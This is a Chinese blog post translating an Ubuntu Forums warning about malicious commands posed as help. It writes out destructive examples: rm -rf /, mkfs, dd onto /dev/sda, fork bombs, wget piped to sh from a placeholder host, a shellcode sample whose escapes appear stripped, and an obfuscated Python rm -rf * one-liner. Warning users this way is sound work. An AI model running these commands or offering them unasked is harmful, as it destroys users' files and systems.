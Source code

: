 ```yaml
---
layout: post
title: Linux恶意命令大全
tags:
- command
- linux
- ubuntu
status: publish
type: post
published: true
meta:
  _searchme: '1'
  views: '1183'
  _wp_old_slug: linux%e6%81%b6%e6%84%8f%e5%91%bd%e4%bb%a4%e5%a4%a7%e5%85%a8
---
```

Ubuntu论坛上的<a href="http://ubuntuforums.org/announcement.php?a=54" target="_blank">公告</a>提醒用户警惕有人假装提供问题解决方案而诱导用户使用恶意命令，并列出了一些恶意命令，特别强调以下是<strong>"DANGEROUS COMMANDS</strong> -- look but <strong>DO NOT RUN"</strong>

<strong>删除</strong>所有文件，当前目录，或当前目录的可见文件:

[code]
rm -rf /
rm -rf .
rm -rf *
[/code]

一个有趣的命令是，当你想删除当前目录的所有隐藏文件时，你也许会用:

[code]
rm -r .*
[/code]

但问题是，这个命令也会删除父目录 ".."，最终这个命令会删除所有父目录的父目录的父目录，也就是删除了所有东西！可能的解决方法是:

[code]
rm -r .[^.]*
[/code]

当然，这个命令可能无法匹配某些想要删除的文件，这个问题留给读者来修正 -,-
（不知道这样行不行: <font color="#3366ff">rm -r .[^.]*</font><font color="#3366ff">; rm -r ..?* </font>不过太土鳖了。。--azalea）

<strong>格式化</strong>

<!--more-->

[code]
mkfs
mkfs.ext3
mkfs.anything
[/code]

<strong>操作块设备</strong>:导致原始数据写入块设备，通常会使文件系统崩溃，数据丢失

[code]
any_command &gt; /dev/sda
dd if=something of=/dev/sda
[/code]

<strong>Forkbomb</strong>(汗。。不知道怎么翻译）：执行大量线程直到死机，用户不得不重启，可能导致系统崩溃、数据损坏等严重后果。在类Bourne shell中, 如Bash: (这个命令绝对会引起尝试的冲动。。）

[code]
:(){:|:&amp;};:
[/code]

详细解说： from <a href="http://hellobmw.com/archives/ubuntus-malicious-commands.html" target="_blank">北极冰仔部落格</a>
<blockquote>:(){:|:&amp; };: 等价于
f() # 定义函数
{ f | f # 这个是精华, 管道线使两个 f 同时运行 }; f # 调用函数永不返回, 无穷递归. bash 的调用栈放在堆上, 结果耗尽所有CPU和内存空间. 而且同时运行的 f() 是指数爆炸式的…</blockquote>
在Perl中
[perl]
fork while fork
[/perl]

<strong>Tarbomb</strong>:把一个被人做了手脚的tar档案文件解压到一个已经存在的目录下。这个tar档案文件可能会变成成千上万个文件或通过猜测文件名注入系统。因此，<strong>要养成习惯在一个刚创建的目录中解压tar文件</strong>。（这段没看懂，原文如此：Someone asks you to extract a tar archive into an existing directory. This tar archive can be crafted to explode into a million files, or inject files into the system by guessing filenames. You should make the habit of decompressing tars inside a cleanly made directory. --azalea)

<strong>解压炸弹</strong>: 解压一个从不可靠来源下载的看起来很小的文件，实际上这个文件可能是被高度压缩的，解压后会膨胀成上百GB，塞满你的硬盘。因此，<strong>不要使用不可靠来源的数据</strong>！

<strong>Shell脚本</strong>：运行可能含恶意代码的shell脚本。因此，<strong>不要运行来自不可信来源的shell脚本</strong>。

[code]
wget http://some_place/some_file
sh ./some_file
[/code]

或
[code]
wget http://some_place/some_file -O- | sh
[/code]

<strong>编译代码</strong>：有人提供给你源代码让你编译，很容易在其中隐藏恶意代码。不要轻易编译源代码或执行编译后的代码，除非来源可靠（比如SourceForge,作者的主页或者Ubuntu官方地址）

一个著名的例子出现在<a href="http://seclists.org/fulldisclosure/2007/Aug/0071.html" target="_blank">一个邮件列表</a>中, 其中有这样一段代码：

[code]
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "xebx3ex5bx31xc0x50x54x5ax83xecx64x68"
"xffxffxffxffx68xdfxd0xdfxd9x68x8dx99"
"xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7"
"x56x04xf7x56x08xf7x56x0cx83xc4x74x56"
"x8dx73x08x56x53x54x59xb0x0bxcdx80x31"
"xc0x40xebxf9xe8xbdxffxffxffx2fx62x69"
"x6ex2fx73x68x00x2dx63x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
[/code]

对新手来说，这些代码就像"那些复杂的十六进制的东东"，看起来很安全，但实际上这是运行 rm -rf ~ / &amp;
对于普通用户，这个命令会破坏home目录;而对于root用户，这个命令会破坏整个文件系统。如果你能在十六进制字符串中辨认出这个命令，那你不用担心上述的恶意命令了。否则，要当心恶意命令会以各种新颖的形式出现！

强调一下，以上远不是所有恶意命令的清单。花30秒就可以用python写出以下代码:

[python]
python -c 'import os; os.system("".join([chr(ord(i)-1) for i in "sn!.sg!+"]))'
[/python]

其中的"sn!.sg!+"实际上只是 rm -rf * 上移了一个字母。当然这是个很土鳖的例子--我不希望有人会不经思考就把这段代码粘贴到终端里去。

节译自<a href="http://ubuntuforums.org/announcement.php?a=54" target="_blank">ATTENTION ALL USERS: Malicious Command</a> by <a href="http://ubuntuforums.org/member.php?s=d7c0f60f430aca0675e7f761165e2c28&amp;u=780" target="_blank">jdong</a>